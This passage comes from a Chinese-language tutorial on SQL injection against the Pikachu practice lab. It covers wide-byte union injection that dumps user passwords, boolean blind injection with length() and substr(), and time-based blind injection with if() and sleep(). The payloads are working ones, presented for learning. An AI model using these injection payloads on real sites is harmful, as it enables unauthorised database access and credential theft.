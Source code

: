 ![vskjdbvkjsdbjsdjlvnsldbn](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/vskjdbvkjsdbjsdjlvnsldbn)

4.最后爆出password字段`1234 %df' union select 1,(select group_concat(password) from pikachu.users)#`

![djvsjdvjdvjkjvkjavv](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/djvsjdvjdvjkjvkjavv)

### 十、布尔盲注

1.通过如下`1``admin``admin' and 1=1#``admin' and 1=2# `的逻辑比对，知道它会把我们拼进去的and1=1,and 1=2进行运算，就可以知道后端这个点是存在注入的；但是貌似这个前端输出的信息特别少，它只有当你输入正确时有一个正确的结果以及你输入不正确时告诉你用户名不存在，所以知道是布尔盲注类型；

![avdidjlsjlahdva](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/avdidjlsjlahdva)

![ajdvajdvaovajdvanva](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/ajdvajdvaovajdvanva)

![advcncmcmccjcsdbsd](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/advcncmcmccjcsdbsd)

![sjbvksdbvkbsdvkbskdvb](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/sjbvksdbvkbsdvkbskdvb)

2.用length()函数猜解数据库名的长度`admin' and length(database())=7#``admin' and length(database())=8#`

![avjlakdvsnvjdnjsvdnvds](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/avjlakdvsnvjdnjsvdnvds)

![sljvdbvsbvhsdbvkbskh](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/sljvdbvsbvhsdbvkbskh)

3.知道出数据库名是7位之后，用substr()函数截取数据库名的每一位，并对每一位进行猜解（substr的用法跟limit的有区别，需要注意。limit是从0开始排序，而这里是从1开始排序。）

`admin' and substr(database(),1,1)='p'#`

![dvjdvjjdvbdvbsmbkdhbd](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/dvjdvjjdvbdvbsmbkdhbd)

`admin' and substr(database(),2,1)='i'#`

![advhbakhdbvkhabvkhabva](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/advhbakhdbvkhabvkhabva)

`admin' and substr(database(),3,1)='k'#`

![kadvhbkadbvabvkhbadv](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/kadvhbkadbvabvkhbadv)

4.依次猜解得到database()为'pikachu'，可以按照相同方法猜解表名、列名、字段内容。（注意：也可以用burp进行爆破，比手动一个个猜解更快一点，不过需要在substr()函数前再使用一个ord()函数或者ascii()函数，其功能都是将字符转化为ASCII码，之后就可以用ASCII数字码依次爆破。）

### 十一、时间盲注

>**发现不能用布尔盲注只能用时间盲注的情况：当测注入点时，发现不管怎么测试页面都没反应，那就可以在测试语句中加入sleep()函数进行测试。**

>**时间注入是利用sleep()或benchmark()等函数让MySQL的执行时间变长。时间盲注多与IF(expr1,expr2,expr3)结合使用，此if语句含义是：如果expr1是TURE，则IF()的返回值为expr2；否则返回值则为expr3。**

1.在该注入页面发现无论输入什么，页面都只有“i don't care who you are!”一种回复，所以联合注入、报错注入、布尔注入都不适用，这里我们使用时间盲注。

2.使用substr()和ascii()两个函数猜解库名长度，在用if()和sleep()函数判断我们的猜解值是否正确，正确则延时5秒，否则不延时。payload构造`admin' and if(ascii(substr(database(),1,1))=112,sleep(5),1)#`

